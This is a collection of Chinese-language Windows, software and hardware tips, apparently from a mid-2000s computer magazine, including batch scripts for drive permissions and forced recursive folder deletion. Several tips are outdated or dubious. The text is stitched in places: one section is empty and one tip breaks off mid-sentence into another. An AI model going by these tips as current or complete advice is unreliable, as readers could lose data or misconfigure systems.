在 MSN Messenger 里，如果对方将你从好友名单中删除，你一般是不会发觉的，因为对方依然在你的好友名单里。那么如何知道对方是否删除你呢？选择 “工具→选项” 菜单，在打开的 “选项” 窗口中切换到 “隐私” 标签，在 “联系人名单” 栏的 “查看哪些用户已将您添加到他们的联系人名单” 后面的 “查看” 按钮，这里就可以看到谁已经将你添加为好友了。把这个名单与你的好友名单进行对比即可得知谁把你从 MSN Messenger 中删除了。

## 你遭遇了短信陷阱么？

中国移动手机用户，键入 “0000”，发至 186201，若有订制，就会收到 “您订制了下列梦网短信业务” 的内容列表短信，回复 “QX序号”，可进行对已订制业务的退订，退订成功还会提示，键入 “00000” 发送到上述号码，可退订所有已订制服务。

## 大屏幕 CRT 体验宽屏游戏特色

现在如半条命 2、魔兽世界等游戏都支持宽屏 16:9 显示模式，不过要体验这种显示方式，通常必须采用宽屏显示器才行。不过我们可以通过欺骗的方式让大屏幕 CRT（很多 21 英寸的二手显示器）显示器模拟出宽屏效果。首先我们给这些显示器强制更改显示器的驱动，安装一款宽屏 CRT 显示器的驱动程序，比如 SONY FW900。然后，就可以在显示分辨率中选择 16:9 的分辨率，比如 1280 × 720、1920 × 1080 等（一般高档特丽珑显示器的场频和行频都能达到这样的分辨率），不过这时你会发现显示的图像比例不正确，上下被拉长了，这时只需要调节显示器上的相关按钮即可。

## 重启服务搞定打印机无响应问题

不少有这样的经历：在单位中使用打印机，结果打印机半天没响应，在删除打印队列中的文件时提示不能删除……。这时可以运行“services.msc”命令打开“服务管理”窗口，右击名为“print spooler”的服务项，选择菜单“启动”即可。

## 巧用 DOS 命令让 WinRAR 关联更多格式

在下载批量压缩文件包时，可能经常会遇到类似*.r01、*.r02的文件，其实那是分卷压缩包文件，可以用 WinRAR 进行解压缩操作。默认情况下 WinRAR 仅仅支持从*.r01、*.r02……一直关联到*.r29，而很多大型文件，比如电影之类的，其分卷压缩包都远远不止29个，能不能让 WinRAR 关联更多呢？

运行 CMD 命令打开“命令提示符”界面，输入“for /L %d in (30,1,99) do assoc .r%d=WinRAR”回车即可让 WinRAR 最多关联到*.r99 格式的文件。

## “命令提示符”自动完成文件名输入

在“命令提示符”中，如果要使用的命令参数是一个很长的文件/目录名，比如“cd "Documents and Settings"”，这类名称输入时间长且容易出错。其实可以让“命令提示符”自动完成这些文件或者目录名的输入，方法是按键盘上的 Tab 键，系统将依次列举当前目录下的文件/目录名，如果已经输入了一些字母，则会自动选择与这些已输入部分匹配的名称。比如要完成刚才的 cd 命令，则只需输入“cd d”，然后点 Tab 键即可。

## 随时了解 MSN 服务器状态

有时，MSN Messenger(以下简称MSN)会出现突然上不去的问题，这时我们通常会先检查网络。不过很多时候即使网络没有问题，也无法登录 MSN，这多是由于 MSN 服务器出现故障或正在检修。那么我们应该如何判断呢？如果再出现这个现象，大家可以登录到 http://messenger.msn.com/status.aspx 检查当前服务器的状态，当显示为“所有系统均在稳定运行”时，则表示你的网络或 MSN 设置出现问题。

## 在 KUGOO 中快速搜索整张专辑

我们在用 KUGOO 下载 MP3 时，经常是选择专辑后，再点击每首歌曲名称，让 KUGOO 进行按文件名进行搜索，然后再下载。其实这样很麻烦，你不如试试下面这个方法。

我们从 KUGOO 上下载的很多 MP3 文件名都是“艺术家 - 专辑名 音轨号.标题”或“专辑名 - 艺术家 音轨号.标题”的形式，利用这个规律，我们可以搜索“艺术家 - 专辑名”(或“专辑名 - 艺术家”)或直接搜索“专辑名”就可以找到整张专辑的歌曲了。下面，我们就以搜索羽泉的《三十》专辑中的所有歌曲为例：打开 KUGOO，点击“音乐搜索”，在“搜索我喜欢的音乐”中输入“三十”，就可以找到这张专辑中的所有歌曲了，如果用“三十 - 羽泉”作为关键词，则可得到更准确的搜索结果。

## 在 Word 表格中求平均值

为了方便工作，如果是简单的表格，很多人喜欢直接在 Word 制作完成，但遇到计算问题时就出现麻烦了，应该怎么办呢？其实，在 Word 中每个单元格也可以像 Excel 那样，用 A1、A2、B1、C1 这样的形式进行描述。这样我们就可以像在 Excel 那样用公式来解决计算问题了。

在计算时，先将光标定位至需要计算的单元格内，然后点击菜单中的“表格→公式”，删除“公式”栏内的已有 SUM 公式，从“粘贴函数”下选择“AVERAGE”，最后，像 Excel 那样，在括号内输入要计算平均值的单元格，如“AVERAGE(A1:C1)”即可。(PP)

## 会损坏电脑的坏习惯

- 1. 狂点击回车键。很多人在兴奋的时候，都喜欢使用按下回车键，长此以往下去，最先坏掉的键就是回车，当然键盘上的字，最先磨掉的是 ASDW。要解决这个问题当然就是控制好你的情绪，相信这并不难吧。
- 2. 边用键盘边吃零食，喝饮料。看看很多网吧里的键盘，相信很多人就会体会到什么叫“脏”了，一般我们可以在里面看到各种食品的残渣，各种配料，这也难怪有人说“公用机房里的键盘比厕所还脏”了。在面对这样的键盘，吃吃喝喝，先不说对键盘的影响，对身体健康也是非常不好的。如果要是喝饮料，那就更危险了，只要饮料洒到你的键盘上，就足以毁掉它了。解决这个问题最简单的方法也很简单，只要别在电脑前吃吃喝喝就好啦。
- 3. 总是忘记拿走光驱中的光盘。不少人喜欢把光盘长期放到光驱里，特别是 CD 机，但这种习惯并不好。光盘放在光驱中时，光驱每过一段时间就会检测一次，高倍速光驱在工作时，电机及相关部件还会产生很高的热量。如果光驱长时间处于工作状态，那么会加速机械部件的磨损和激光头的老化。此外，打开/保存资料的时候，系统都要去读一次光盘，影响系统的反应速度。解决这个问题自然就是不要总把光盘放在光驱中。
- 4. 把桌面背景设置成高亮度的图片。不少用户为了美化系统的“脸面”，都喜欢把桌面背景设置成那些非常亮的图片。殊不知，这样既不利于保护眼睛(因为长时间面对高亮度的物体，容易引起视疲劳，损伤视力)，也不利于显示器的寿命。因为高亮的图像是由强力的电子束长期轰击屏幕上的荧光粉实现的，长期显示一张固定的高亮图片，将会造成屏幕相应部分的荧光粉老化。结果是，即使关机，屏幕上也会出现隐约的图片，造成永久的伤害。解决办法是，每隔一段时间更换一张背景图片。

## 搞定收件夹的“2GB 限制”

OE 和 Outlook 一样，存在一个“2GB 限制”——当接受到的邮件容量超过 2GB 时(具体表现为 OE 的 *.dbx 和 Outlook 的 *.pst 文件超过 2GB)，启动时会出现错误提示。解决方法是在 OE 中选择“工具→选项”菜单，切换到“维护”标签，单击“存储文件夹”标签，在这里能看到 OE 中的邮件保存在哪个目录。接下来进入该目录，将“收件箱.dbx”重命名为“old.dbx”(或者别的名字)即可。

对于 Outlook，也可以采用类似方法，或升级到 Outlook 2003 版本。

## 让 OE 与 Outlook 共享地址簿

很多朋友在单位使用 Outlook 收取工作邮件，在家里则用 OE 收取私人邮件，但 Outlook 的地址簿功能要强大一些，很多朋友希望在 Outlook 中编辑，并且能让编辑好的地址簿也能和 OE 共享。方法如下：

用记事本编辑如下代码，保存为 *.reg 文件后双击导入即可：

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\WAB\WAB4]
"UseOutlook"=dword:00000001
```

小提示：如果你使用 Windows 98/ME，请将“Windows Registry Editor Version 5.00”替换为“REGEDIT4”。

## WAV 转 MP3？录音机就可以

当需要将 WAV 转换成 MP3 时，你会选择用什么方法？用专业的转换工具？或是用 Foobar 2000 的转换功能？其实根本不必这么麻烦，Windows 自带的录音机就能实现这个功能：

- 1. 点击“开始→程序→附件→娱乐→录音机”，打开“录音机”窗口。选择菜单“文件→打开”，选择打开要转换的 WAV 文件。
- 2. 选择菜单“文件→另存为”，点击“更改”按钮。在“格式”框中选择“MPEG Layer-3”，点击“确定”。
- 3. 将“保存类型”设为“所有文件”，在“文件名”中键入以 MP3 为扩展名的文件名称，点击“保存”按钮即可。

## 让 Windows 时钟告诉我星期几

加班加点太多，有时忙得连星期几都忘了，虽然 Windows 提供了一个时钟，当鼠标悬停在上面时它会显示今天几月几日，但如果要看星期几的话，还得双击打开“日期和时间”属性面板才会看到。可不可以简单一点呢？完全可以。

打开“控制面板”，双击“区域和语言选项”，在弹出对话框中选择“区域选项”选项卡，点击“自定义”按钮，在出现的“自定义区域选项”对话框中选择“日期”选项卡，我们可以看到默认的“日期格式”是“yyyy'年'M'月'd'日'”，在后面加上四个“d”，就成了“yyyy'年'M'月'd'日'dddd”，点击“确定”退出。把鼠标移到屏幕右下角系统托盘的时钟上，看看是不是出现了星期几的提示呢？另外，建议在“dddd”之前加一个分隔符“-”，这样看起来更清楚一些。

## 为右键菜单添加“查找目标”

在日常使用电脑时，如果想知道一个快捷方式所链接的文件在哪里，则需右击该快捷方式，选择“属性”，再点击“查找目标”，比较麻烦。其实我们可以用个小工具，在右键菜单上直接添加“查找目标”功能。从 http://www.newhua.com/cfan/200516/gf.rar 下载“右键菜单增强小工具”，在主窗口中勾选“查找目标”即可，根据需要还可以勾选“用记事本打开”及“DOS 在这里”两项。

## 巧妙复制金山词霸中的日文

用过“金山词霸”的朋友知道，在查词界面里可以把选中的文字复制到其他地方去。中英文的复制粘贴很容易，日文可就麻烦了——不管粘贴到哪儿，结果都是乱码。因为“金山词霸”里日文的编码不是 Unicode 或 GBK，而是 Shift-JIS，这怎么办？你当然可以自己用日文输入法照着打一遍，或者用“二次复制”的方法：选中所需的日文，复制到“记事本”中。保存后再以 IE 打开(此时看到的还是乱码)，然后点击“查看→编码→日文(Shift-JIS)”或是“日文(自动选择)”，是不是和“金山词霸”里显示的一样了？这时再把 IE 里的日文复制粘贴到其他字处理软件里就不会出现乱码了。

## 为“网文快捕”自定义右键菜单

“网文快捕”的新版本在 IE 右键菜单中仅有“保存/完整网页”及“保存/更多保存内容”两项。如果想添加更多选项，可以按如下方法操作。

- 第一步：在网页中右击，选择“保存/完整网页”，打开“保存选项”窗口。
- 第二步：点击“完整网页(点击这里更改)”按钮，选择“配置”项。
- 第三步：点击“Internet Explorer 右键菜单”下的“配置”按钮，然后使用“添加”按钮，选择不同的“保存内容”，就可以完成右键菜单的添加了。

## 不用原装墨盒，防止用兼容墨水时堵头

喷墨打印机原装墨水比兼容墨水要贵不少，所以不少用户都会选择兼容墨水来节约成本。但是，堵头故障的发生，又让我们对兼容墨水又爱又恨。若论墨水的品质，原装墨水通常更为可靠。

墨水确实有其独到的优势。但其化学成分也更精细、更复杂，而且容易与其他兼容墨水产生反应引起堵头。其实，一台喷墨打印机买回来，一次原装都不用（把原装墨水拆下来拿去卖掉，或者换成等价值的兼容墨水），直接就用兼容墨水，就不容易造成堵头。这是由于墨头和供墨管道中没有不同化学成分的墨水存在，发生堵头的几率就要小很多！此法只适合墨头和墨盒分离的打印机。

## 定期关闭电源，确保 ADSL 猫稳定工作

随着宽带网络的普及，很多用户都选择了费用低廉的包月方式长时间不间断地连接互联网，这确实给我们上网带来了极大的方便。但由于长时间开机，ADSL Modem本身的元器件必然产生并且聚集大量的热量。随着气温居高不下，这种高温状态会造成ADSL Modem工作出现一些意想不到的异常情况，表现为网络连接不稳定。这时候，我们只需关掉ADSL Modem的电源，待其冷却后再开机使用即可。实际上，有一些发烧用户更是买来“冰包”将ADSL Modem整个包起来，以确保其长时间开机工作而不发生异常。

## 高 ISO 值拍照时最大限度抑制噪点

用数码相机拍照，当光线太暗时，除了尽量采用大光圈之外，提高ISO值也是解决问题的好办法。但是，提高ISO值必然导致图像噪点增多，影响图像质量。对此，如果你的相机支持调整图像的锐度、对比度和色彩饱和度，可以尝试降低这几个参数的值，这样就可以最大限度地抑制噪点，获得更精细的照片。不过，这个方法会使图像的色彩和锐度都降低。

## 增强 IE 地址栏搜索功能

很多朋友都知道 Maxthon 有一个非常不错的功能：在搜索栏中输入“搜索引擎缩写 关键字”即可直接调用该搜索引擎来搜索指定关键字。其实IE也可以拥有这一功能：首先到http://www.tnk-bootblock.co.uk/getfile.php?id=iequickfind下载这个名叫 IE QuickFind 的小工具，运行后可以看到软件窗口中列出了多个搜索引擎的缩写，比如 Google 的缩写是“g”。如果你想使用别的缩写，可以选中后点击“Edit Search Engine”进行修改。确认后单击“Install”按钮即可。之后我们只需在IE地址栏中输入“g 关键字”就可以直接在 Google 中进行搜索了。

## 让 MSN Messenger 好友昵称瞬间变大

首先打开 Word，在主窗口空白处单击右键，选择“符号”菜单，在打开的窗口的“字体”下拉列表中选择“Tahoma”，在“字符”代码中输入“0E51”，此时你能看到符号窗口中已经选中了一个特殊字符（是个泰国字符），接着单击“插入”按钮。接下来进入 MSN 窗口的“工具→选项”中，将该字符复制粘贴到自己的 MSN Messenger 昵称的最前面，打开与任意好友的聊天窗口，发送一条信息，你就会看到你的 MSN 昵称变得比常人大了不少。如果你在你发送的信息前加上该字符，你发送的信息字体同样会比普通字体大不少。

## 申请@msn.com 后缀的邮箱

以前我们可以通过故意错误输入的方法来巧妙申请 @msn.com 后缀的邮箱，现在该方法已经失效。不过如果想申请 @msn.com 后缀名的邮箱，可以通过下面几个网址来注册：https://accountservices.passport.net/reg.srf?id=963&s1=1&lc=2052 https://accountservices.passport.net/reg.srf?ns=msn.com

## XP 也能自动登录

在 Windows 2000 中，通过“控制面板”中的“用户账户”功能就能轻松解决的问题，到了 Windows XP 中反而不好解决了。因为在 Windows XP 中的账户管理并没有提供自动登录系统的选项，要实现这个功能，必须使用清空用户登录密码、删除多余用户等方法。有没有更简单有效的方法呢？当然有，运行“control userpasswords2”命令即可打开原来 Windows 2000 风格的用户账户管理界面（见图），在这个窗口中去除“要使用本机，用户必须输入用户名和密码”的勾选，然后点击“应用”，在弹出的“自动登录”窗口中将要自动登录的用户名及密码输入，“确定”后即可实现自动登录。

## 快速管理你的密码

如果你在一个工作组局域网环境里，那么在 Windows 中就应该会保存着各种登录密码，比如说局域网其他机器的共享密码、微软的 Passport 等。可如果你的电脑是台公共计算机，那么将机器上保存下来的密码删除掉就显得非常重要，企业中在涉及商业隐私的情况下更是如此。管理这些用户名和密码，是否需要安装其他第三方的软件呢？Windows XP 自带的功能就能替我们解决这一问题，点击“开始→运行”，在运行框中输入“rundll32.exe keymgr.dll, KRShowKeyMgr”回车，打开“存储用户名和密码”窗口，在界面的列表中就显示了当前机器上的所有登录共享密码，选中需要删除的密码，点击右侧的“删除”按钮即可。

## 利用剪贴画寻找免费图片

当利用 Power Point2003 制作演示文稿时，经常需要寻找些图片来作为辅助素材，其实这时用不着登录搜索站点去搜索，直接在“剪贴画”中就能搞定。方法如下：在菜单中依次点击“插入→图片→剪贴画”项，在窗口左侧的“搜索文字”栏中键入寻找图片的关键词，然后有在“搜索范围”下拉列表中选择“Web 收藏集”，单击“搜索”即可。这样一来，所搜索到的都是微软提供的免费图片，不涉及任何版权事宜，大家可以放心使用。

## 将邮件制作为电子书

一般备份电子邮件都是直接备份邮件接收软件里面的信箱文件，如 Outlook Express（简称OE）的信箱文件是DBX文件，但这种文件是无法直接浏览的，只能通过OE才能查看邮件，很不方便。其实我们还有一个更好的备份方法，就是把电子邮件做成电子书，每一页内容就是一封电子邮件，这样备份好后就可以随时查看邮件中的资料。“网文快捕”这款软件就具有这样的功能，它支持从OE、Foxmail和The bat! 中导入邮件，下面就以OE为例来介绍制作的过程。

-   第一步：打开软件新建一个书籍文件，接着点击菜单“文件→导入→导入电子邮件”，在弹出的窗口中点击“添加”按钮。
-   第二步：在“打开”窗口的“文件类型”中选择“Outlook Express mail box file(*.dbx)”，然后找到邮件保存的文件夹，选中要备份的邮件文件，点击“打开”按钮。
-   第三步：在“导入邮件”窗口中点击“开始”按钮来导入邮件，完成后可以在软件的左侧栏看见每封邮件的标题内容了，右面显示的就是邮件内容。
-   第四步：邮件导入到“网文快捕”后，一般是不编辑的，可以直接制作电子书了。点击菜单“文件→制作电子书→制作电子书(*.exe格式)”，设置好保存文件夹，点击“制作”按钮就可以了。

## MP3 坏了先别送去维修

一般情况下 MP3 随身听物理上的损坏不是很多见（你非要放到车轮子下面去碾那也没办法），大多数时候 MP3 随身听的损坏都是由于软故障引起的，最多见的是没有按照说明书的要求插拔 MP3 随身听、复制文件的时候突然断电、没有在正确的开关机状态下连接电脑等等。这些问题可能会直接导致 MP3 随身听的部分接口程序发生错误。常见的症状就是连接电脑的时候无法正确识别、开机提示存储格式错误等等。遇到这种情况，先别急着送到厂商那里去修理，找找 MP3 随身听原配的光盘，或者到该 MP3 品牌的官方网站上去找到对应型号的固件刷新程序，同时再找一个最新版本的该型号固件。仔细阅读说明书过后按照步骤尝试升级固件程序，90% 以上的软故障都可以通过这个方法修正。当然，固件的刷新过程没有什么难度，但是非常繁琐，比如有些品牌是要按住 MP3 的开机键不放，然后连接电脑，直到升级成功了才能放开开机键。所以千万要看清楚说明程序中讲解的步骤。

## 笔记本电池不用拔

随着本本一族的增加，笔记本电池的使用和维护也成为一个热门话题。很多人习惯在连接外接电源的时候拔掉笔记本本身的电池，据说这样可以减少电池的充电次数，延长电池寿命。但实际上是这样么？其实电池的问题一直受到各个笔记本厂商的关注，在近年来各大品牌都针对这样的情况作出了对应的保护性设计，最常见的就是95%充电保护。顾名思义，95%充电保护的意思就是当电池的剩余电量大于95%的时候，不管是否连接了外接电源，都不进行充电。所以我们平时在外接电源的情况下使用笔记本电脑，没有必要拔掉电池。另一方面，不少品牌的笔记本电脑都有这样一个设计，当外接电源和电池都同时连接笔记本电脑的时候，才能真正以全速工作，缺一不可。所以从某种意义上来说，不拔掉电池也可以让笔记本电脑的性能得到更近一步的发挥。

## 查看自己的 IP 地址

通过 ADSL 方式上网的情况下，大多数用户都是系统自动获取IP地址，也就是IP地址是动态更换的。如何快速、准确地查看当前的IP地址呢？

-   方法1：用鼠标双击系统托盘区中的 ADSL 连接图标，在打开的窗口中选择“详细”选项卡就可以查看当前系统中正在使用的IP地址了，如图所示：
-   方法2：单击“开始→运行”，在打开的窗口中输入“CMD”，回车后在打开的命令提示符窗口中输入“ipconfig /all”命令，回车后即可查看当前系统的动态IP地址了。

## 让 QQ 通讯录与 Foxmail 联姻

QQ2005 Beta 版中增加的通讯录功能很是实用，用它可以将 Outlook 软件中的联系人导入，并存放到腾讯服务器上，这样就能贴身随Q携带自己的通讯录而不再害怕数据丢失，可 QQ 通讯录竟然对我最常用的邮件收发软件 Foxmail 的通讯簿亮起了红灯，不能直接将 Foxmail 的通讯簿导入。经过实验，发现我们可以利用 CSV 文件做中转站实现它们的互联互通。首先在 Foxmail 中打开“地址簿”，执行“工具→导出→CSV 文件”将地址簿内联系人资料导出到一个CSV文件；然后在右点 QQ 通讯录空白处，选择“导入/导出”命令，在打开的“导入/导出向导”对话框中选择“导入CSV文件”来将刚才的 CSV 文件导入便可。

## 免费域名 Logo 生成器

对于网站制作者来说，为了让网页更加出色和吸引人，常常会在网页上加入一些各种各样的 Logo 图片，域名 Logo 则是其中的一个。现在，你不必为域名 Logo 而费神了。只要你在浏览器中打开http://phorum.com.tw/Generator.aspx，接着点击网页的“CN”标识（使用其他域名的朋友可以点击对应的标识图片），然后输入域名前缀和简单说明，再点击“产生图片”就可以看到你的域名 Logo，最后点击“下载图片”保存下来就可以了。

## 一键修改文件夹权限

装完系统后我们常常出于安全考虑要修改一些文件夹的权限，但修改权限的操作比较繁琐，能不能一键完成呢？

## 改用户对文件夹的控制权限

但其操作相对比较繁杂，能不能让我们对文件夹或者磁盘分区的控制更简单呢？以让 Administrators 组和 system 组完全控制 C、D 两个磁盘分区为例：

首先到 http://www.microsoft.com/windows2000/techinfo/reskit/tools/existing/xacls-o.asp 下载 Xcacls.exe 文件。接下来用记事本编辑如下内容：

```
echo
xacls.exe C:\ /G administrators:FRW /Y >>right.log
xacls.exe C:\ /E /G system:FRW /Y >>right.log
xacls.exe D:\ /G administrators:FRW /Y >>right.log
xacls.exe D:\ /E /G system:FRW /Y >>right.log
pause
```

将其保存为 xca.bat 文件，并保存在 Xcacls.exe 文件所在目录，最后执行 xca.bat 文件即可。

## 巧妙删除“长路径”文件夹

删除文件夹时 Windows 经常会提示“路径太长”，这样的情况该如何处理呢？用记事本编辑如下内容：

```
@echooff
if {%1}=={} @echo Syntax: DelFolder FolderPath&goto :EOF
if not exist %1 @echo Syntax: DelFolder FolderPath - %1 NOTfound.&goto :EOF
setlocal
set folder=%1
set MT="%TEMP%\DelFolder_%RANDOM%"
MD %MT%
RoboCopy %MT% %folder% /MIR
RD /S /Q %MT%
RD /S /Q %folder%
endlocal
```

将其保存为 delfolder.bat，接下来到 Windows XP Resource Kit 中找一个名为 robocopy.exe 的文件（也可到 http://www.microsoft.com/downloads/details.aspx?FamilyID=9d467a69-57ff-4ae7-96ee-b18c4790cffd&displaylang=en 下载），将其和 delfolder.bat 放在同一目录之后，运行“CMD”命令打开命令提示符界面，进入 delfolder.bat 所在目录，运行“DelFolder FolderPath”命令即可。

## 巧用 RealPlayer 帮你整理 MP3 歌曲

从外面买了一些 MP3 歌曲的光盘，里面的歌曲都是按照 CD1、CD2 等文件夹命名的，而不是我们通常的“歌手/专辑名称”的方式命名的，这样就要自己重新整理。其实只要这些歌曲的 ID3 信息完整，我们就可以用 RealPlayer 来帮你自动整理的。

-   第一步：把需要整理的所有歌曲都放在一个文件夹下，如“E\歌曲”中，打开 RealPlayer，点击菜单“文件→将文件添加至我的媒体库”，在“添加文件”窗口中把歌曲文件夹中的歌曲全部选中。
-   第二步：点击“工具→首选项”菜单项，在左面点击“我的媒体库→我的媒体库高级设置”，在高级设置中点击“更改文件名”和“更改子文件夹”按钮，分别来对歌曲的命名和歌手文件夹的命名进行定义。
-   第三步：点击下面的“应用于现有媒体”按钮，在弹出的窗口中点击“浏览”按钮把两个文件夹都改成保存歌曲的“E:\歌曲”，然后点击下面的“更改文件名”按钮。

这时打开保存歌曲的文件夹，已经是按歌手名称帮你自动分好了，剩下一些 ID3 信息不完善的歌曲就只能自己手动进行整理了。

## 让 Excel 自动切换输入法

我们在使用 Excel 表格时，经常会遇到中英文交替输入的情况，比如某 A 列要输入中文，B 列要输入英文，通常这时只有反复切换输入法，非常麻烦。那么你为什么不让 Excel 自动切换输入法呢？

-   第一步：打开中文输入法，选中 A 列，点击菜单中的“数据→有效性”，在“数据有效性”窗口中点击“输入法模式”标签。
-   第二步：在“模式”下拉菜单中选择“打开”，单击“确定”按钮。
-   第三步：选择 B 列，同样打开“数据有效性”窗口，在“模式”下拉菜单中选择“关闭(英文模式)”，单击“确定”按钮即可。

现在当你选中不同列的单元格时，Excel 就会自动切换输入法了。

## DC 清洁小窍门

镜头纸主要的作用是用来擦拭镜头表面的灰尘、指纹等。如果遇到机身缝隙中进入了灰尘，就得使用皮老虎或是小的软毛刷来清除。当然，我们这些纯粹业余的摄影爱好者不一定常备着皮老虎，所以如果在相机镜头的一些边缘缝隙中留下了灰尘，可以尝试把镜头纸直接撕开，撕出不规则边缘的柔软纤维可以当小刷子用，既能清理灰尘，又不会划伤镜头。记住，是撕开，可别剪开，剪开的边缘整齐，没法当小刷子用了。

另外，使用镜头纸还要注意一些小细节，比如它们大多是一次性的，不能反复使用。此外，清洁前一定要仔细检查镜头纸本身是否已经粘上了灰尘、沙子，否则不但清洁目的没达到，反倒可能将镜头划伤了。擦拭镜头的方法也很重要。擦拭镜头的正确方法为：首先使用皮老虎或软毛刷（我们自己撕的镜头纸也可以）清理掉镜片上的灰尘，如有吹不掉附着物，可用毛刷轻轻刷掉。镜片如果沾上油污或按上指纹，除了吹、刷之外还要用极柔软、清洁的棉签儿沾上一两滴镜头水轻轻擦掉。最后，用镜头纸由内往外直线擦拭，不要做圆周运动，这点有点像清洁光盘。

## 笔记本刻录 注意节能状态

现在越来越多的笔记本电脑自带了刻录光驱，有的高端型号甚至是内置了 DVD 刻录光驱，这大大增强了我们交换数据和备份信息的能力。但是在刻录的时候一定要注意笔记本电脑的节能状态设置。如果电脑在刻录的中途进入休眠状态，会直接导致刻录失败。最好是开始刻录前，把电源管理选项中的所有的节能选项都设置到“从不”，等刻录完成过后再调整回去。

## 更快捷的陌生人聊天方式

网上流传一种与 QQ 陌生人聊天的方式：在浏览器地址栏中输入 http://wpa.qq.com/msgrd?V=1&Uin=号码&Site=ioshenmue&Menu=yes，然后再修改“号码”为陌生 QQ 好友的号码，然后打开聊天窗口与之聊天。这种方法不仅麻烦，而且还不能记忆该好友，待下次与之聊天时还得再次故伎重演。其实，按下面的方法不仅避免每次查找上面的那串网址，还能永久保存这些聊过的 QQ 陌生人。

-   第一步：在 QQ 主窗口中选择“通讯录”，右击空白区域，选择“新建联系人”，在打开的窗口中的“姓名”框中输入该网友的名称（可随意填写），在“QQ 号码”框中输入该网友的 QQ 号码，如果要添加其他陌生人，单击“添加下一个”按钮，否则单击“完成”按钮。
-   第二步：再次打开 QQ 主窗口中的“通讯录”组，这些添加进来的网友图标右侧将会显示一个企鹅图标，用鼠标单击这个图标即可打开 QQ 聊天窗口了。

## 把 BitComet 的内存占用快速降到 4MB

很多朋友喜欢使用 BitComet 作为 BT 下载专用工具，但其内存占用非常大，刚打开的时候就有 13MB，下载几个文件后，内存占用就会高达 70MB～80MB，非常可怕。如果你的电脑内存不是很大，运行几个其他高内存占用的程序，几乎都要死机了。这里有一个小技巧，可以快速降低它的内存占用：在 BitComet 主界面的“选项→选项→界面外观”中，取消其中的“最小化到系统托盘”选项，确定后再打开任务管理器，会发现它的进程 BitComet.exe 内存占用已经降到了 5MB 多！

## “注册表编辑器”也玩双开

有时需要打开多个“注册表编辑器”窗口进行对比查看，进而编辑注册表，但“regedit”命令重复运行只能打开同一个“注册表编辑器”窗口，也就是说：如果你已经打开了一个“注册表编辑器”，就不能再打开第二个。但你可能不知道，regedit 有一个隐藏参数 m，我们可以用“regedit -m”命令来打开新的“注册表编辑器”。

## 让开始菜单不显示其他用户安装的程序

运行“gpedit.msc”命令打开“组策略编辑器”，依次定位到“用户配置→管理模板→任务栏和[开始]菜单”，在右边窗口中打开“从[开始]菜单删除公用程序组”，将其设置为“已启用”。

如果使用的是 Home 版的 Windows XP 无法编辑组策略，也可以运行“Regedit”命令打开注册表编辑器，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]，新建一个“NoCommonGroups”的 REG_DWORD 值，将其值设置为“1”即可。

## 拒绝运行“桌面清理向导”

按照系统的默认设置，每 60 天系统就会提醒一次进行桌面清理，如果不想系统给予提示，可以运行“gpedit.msc”打开组策略编辑器，依次定位到“用户配置→管理模板→桌面”，将“删除清理桌面向导”设置为“禁用”。或者在桌面空白处右击，选择“属性”菜单，切换到“桌面”标签，单击“自定义桌面”按钮，取消“每60天运行桌面清理向导”的勾选。以后如果要清理桌面，可以在这里单击“现在清理桌面”按钮来手动清理。

## NTFS 转 FAT32 的另类方法

平常我们将 NTFS 分区转为 FAT32 分区时，一般使用 PQMAGIC，但这款软件对中文支持不好，转换后所有分区中的中文字幕都变为了“？”。

于是，大多数读者都使用 Paragon Partition Manager（下载地址:http://www.onlinedown.net/soft/25982.htm），来进行转换。

其实除它之外，用 Ghost 也可以完成转换，只要先将分区用 Ghost 备份一次，然后再将分区格式化为 FAT32 文件系统。最后，用 Ghost 将备份恢复，并在恢复时选择不转换分区即可。

## 巧打索引图

-   第一步：进入 ACDSee 的图库所在目录，选中所有图片，点击菜单中的“文件→打印”项。
-   第二步：在“打印布局”处选择“图册”，然后在“图册格式”下进行设置，比如“大小”设置为5列×12行，“间隔”设置为“10.60”及“0”。
-   第三步：在右下的“标题”标签中勾选“使用标题文字”，然后点击“插入元数据”，在弹出窗口中勾选“文件属性→文件名→文件名(w/o 扩展名)”。

## 用千千静听听广播

总听那些 MP3 歌曲难免会很烦，如果你的电脑可以连上网，那么不如听听网上的电台。以千千静听为例，我们先从 http://www.newhua.com/cfan/200519/tdt.rar 下载电台列表，并解压缩。进入千千静听，将刚刚解压缩的文件拖至千千静听列表窗口中，然后双击列表中电台，就可以播放了。

## 提高打印机的打印速度和质量

如果觉得自己并口打印机的打印速度慢，## 维护UPS要注意
现在有越来越多的人使用UPS，可以说UPS的作用是越来越大。为了保持UPS能够长期稳定地运行，笔者总结出以下几种维护方法。

尽量保持一个比较好的工作环境，在温度、湿度、通风等方面都应该给予必要的保证，这样可以减少UPS的故障发生率。而且要减少对UPS的开关次数，因为频繁地开关UPS，会在电路中产生频繁的电压和电流冲击。UPS对市电的要求并不高，可在电压180V~260V的范围内，输出稳定的210V~230V的电压，并且具有良好的抗干扰性，所以用户不必另外增加稳压电源。当一次全负荷放电完毕后，按规定一般要连续充电8小时以上，以确保下一次UPS逆变供电时的可靠性。

## 打开主板的ATA133
首先要使用品质合格的80芯ATA133专用硬盘线，并将蓝色的一端连接到主板上。安装主板的补丁程序，VIA主板一定要安装最新稳定版的4IN1补丁，安装重启后，如果查看“硬盘驱动器”属性中显示硬盘具体的型号，且属性中“DMA”选项已经消失，表明硬盘ATA133模式已打开。

## 增强电视卡的接收效果
现在有很多人都购买了电视卡，但一部分朋友觉得电视卡的接收效果不好，那么可以用下面的方法来改善播放效果。

1.  选择质量好的连接电缆
这里尽量选购铜芯比较粗的同轴电缆，比如无氧铜(OFC)线缆，减少接线时的中间环节，不要用过长的信号线，从而可以减少信号在传输过程中的衰减。
2.  加装信号放大器，如果加上一个信号放大器，那么就可以明显地发现播放电视的质量有明显的提高。
3.  减少机箱内部干扰
采用高质量且屏蔽性能好的信号线和接头对消除电视卡的干扰现象显得很有必要。建议使用铜芯和单层铜网屏蔽层的同轴电缆，效果不错。另外，闭路线接电视卡的接头可以用那种镀金的产品。

## 傲游(Maxthon)中快速找到需要的页面
使用傲游浏览器打开很多网页之后，有时需要在不同的网页之间切换，一个一个地点击查看显得很不方便，有什么方法可以解决这一问题呢？很简单，按住Ctrl键不放，然后一下一下按Tab键，页面中间就会出现一个小的选择框，显示出这些页面的标题栏，这样就可以很快地帮你找到需要的页面了。

另外，我在擦鼠标时无意发现，按住鼠标右键，再滑动滚轮，也可以自由切换到你想看的页面。

## 删除被PUB的目录
